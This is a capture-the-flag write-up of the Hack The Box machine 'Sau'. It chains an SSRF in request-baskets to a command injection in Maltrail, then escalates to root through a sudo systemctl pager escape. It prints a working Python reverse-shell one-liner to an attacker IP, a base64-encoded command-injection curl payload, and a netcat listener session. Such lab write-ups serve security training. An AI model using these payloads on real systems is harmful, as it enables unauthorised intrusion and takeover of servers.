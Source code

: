 ```yaml
---
layout: post
title: HTB Sau Writeup
date: 2024-01-20
categories: [HTB, Machines]
tags: [ssrf, rce, systemctl,htb,writeup]
toc: true
published: true
---
```

![Sau](https://tuxpad.github.io/assets/images/htb/machines/sau/sau.png)

Sau is a HTB machine with the difficulty rating of Easy. Easy machines tend to run vulnerable services that one can find ready-made scripts that require no, or little, modifications to exploit for a shell. Often what is required to pwn an easy box is simply a bit of google-fu and some reading.

## Initial enumeration

As usual, we start our enumeration of the HTB server with an Nmap scan. Since we're not worried about detection we can do a high speed (-T4) Syn scan with the flag -A, which runs OS and version detection, scrip scanning and traceroute.

I have cut down the output some:
```bash
sudo nmap -sS 10.10.11.224  -A -T4 -oN nmap_scan

Nmap scan report for 10.10.11.224
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 26 Oct 2023 03:19:01 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 26 Oct 2023 03:18:30 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 26 Oct 2023 03:18:31 GMT
|_    Content-Length: 0
```
### Filtered ports

We see that port 80 is filtered. This means that Nmap cannot determine wether the port is open or not because packet filtering from either a dedicated firewall, firewall sowftware on the server, or router rules is preventing Nmap from probing it. There might be an internal service on port 80, but we can't reach it from the outside.

Port 55555, however, is serving HTTP and redirects to /web, so we'll have a look there.

When connecting to http://10.10.11.224:55555 in the browser, we see that the service running is [requests-baskets](https://github.com/darklynx/request-baskets), which is a service that allows the user to collect, and inspect, arbitrary HTTP requests, and it so happens that this  version (1.2.1) has a [SSRF](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)-vulnerability.

### Server-side request forgery (SSRF)

SSRF is a vulnerability where an attacker can exploit the server-side application so that it makes requests to an unintended location. This could mean that the attacker can make the server connect to an internal service, either within the internal network, or (as in the case of this box) on the same server. Sometimes the server running the application can interact with internal resources not directly accessible to the outside user. As these are only meant for internal acces, they can have sensitive functionality accessible without authentication, which could then be abused.

An SSRF attack can thus lead to exfiltration of sensitive data, or even allow the attacker to perform command execution, which could lead to a foothold on the server (reverse shell connection). Sometimes an SSRF can be used to attack a third-party system, where the attack then would appear to have originated from the organization that hosts the vulnerable application.

## Setting up SSRF on request-baskets

So what we'll do is that we will create a new basket and point it to the internal service on TCP port 80 by setting the forward URL to localhost (127.0.0.1). This will make the server connect to itself on port 80, and since this request comes from the server itself it will not be blocked from accessing the service. This enable us to see what hides behind the filtered port.

![Request Baskets](https://tuxpad.github.io/assets/images/htb/machines/sau/request_basket.jpg)

After having created our  new basket, we'll go to it's settings panel and make the required changes.
Besides setting the Forward URL we will enable _Insecure TLS_ to bypass certificate verification, _Proxy Response_ so the response of the forwarded server is sent back to our client, and _Expand Forward Path_ to make the forward url path expanded when the original HTTP request contains compound path.


![Basket Settings](https://tuxpad.github.io/assets/images/htb/machines/sau/basket_settings_1.jpg)

When we visit our basket (http://10.10.11.224:55555/tuxpad) we can now see what service is hiding from us.

![Mailtrail](https://tuxpad.github.io/assets/images/htb/machines/sau/mailtrail.jpg)

The service is [Mailtrail](https://github.com/stamparm/maltrail), a malicious traffic detection system, written in Python. The version running on this server is 0.53, that a quick google search turns out to have a command injection [vulnerability](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

## Crafting payload

Since we know that the server is running Mailtrail, and Mailtrail is written in Python, we know that Python is installed on the server, and can be used for getting a reverse shell connection.

Here's an example of a python reverse shell oneliner.
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
As we're going to send it using cURL, the quotation marks are going to mess things up, therefore we need to send it encoded as base64.

```
cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5B
Rl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTYuMyIsMTMzNykp
O29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZp
bGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIpJwo=
```
We can add the payload to the 'username' parameter as we saw in the [PoC on huntr](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/), pipe it to base64 to decode it and then pipe it to the shell so that it runs, not forgetting to replace the spaces with + as it is sent as a HTTP request.
```bash
curl 'http://10.10.11.224:55555/tuxpad' --data 'username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTYuMyIsMTMzNykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIpJwo="+|+base64+-d+|+sh`'
```
Now that we have our exploit ready to go, we'll need to change the settings of our basket so that our request is forwarded to the Mailtrail login page, set up a Netcat listener for the specified port (1337) and send the cURL request.

![Basket Mailtrail](https://tuxpad.github.io/assets/images/htb/machines/sau/basket_settings_2.jpg)

```bash
nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.16.39] from (UNKNOWN) [10.10.11.224] 53640
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```
We have a shell! We can now collect out first flag in `/home/puma/user.txt`

## Privilege escalation

```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
$
```
We can see that the user may run `systemctl status trail.service` without supplying a password.
Systemctl displays the results in a pager, which might allow us to use the escape character `!` to invoke a shell that we can run commands in as the user that started systemctl as. Because we ran systemctl as root, this could allow us to spawn a root shell. 
```bash
$ sudo systemctl status trail.service
sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```
It worked, and we have pwnd the box! Collect the flag from `/root/root.txt`

## Getting a shell Ez-mode
When googling the services running on the server, we can find github repos with scripts to automatically create a basket and to exploit Mailtrail.

[PoC of SSRF on Request-Baskets (CVE-2023-27163)](https://github.com/entr0pie/CVE-2023-27163)

[Weaponized Exploit for Maltrail v0.53 Unauthenticated OS Command Injection (RCE)](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main)

All we need to do for a quick foothold is to run the scripts.
```bash
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163


> Basket created!
> Accessing http://10.10.11.224:55555/yjiunc now makes the server request to http://127.0.0.1:80/login.
> Authorization: UtgSLWVz0FClB1KD_hOnr17bkLxqf7WEb5xxeVnqUXGD
```

After getting the basket, just run the mailtrail exploit script with your IP, listening port and the address to the basket we got from the first script (don't forget to start a Netcat listener).
```bash
python3 exploit.py 10.10.16.3 1337 http://10.10.11.224:55555/yjiunc
Running exploit on http://10.10.11.224:55555/yjiunc
```
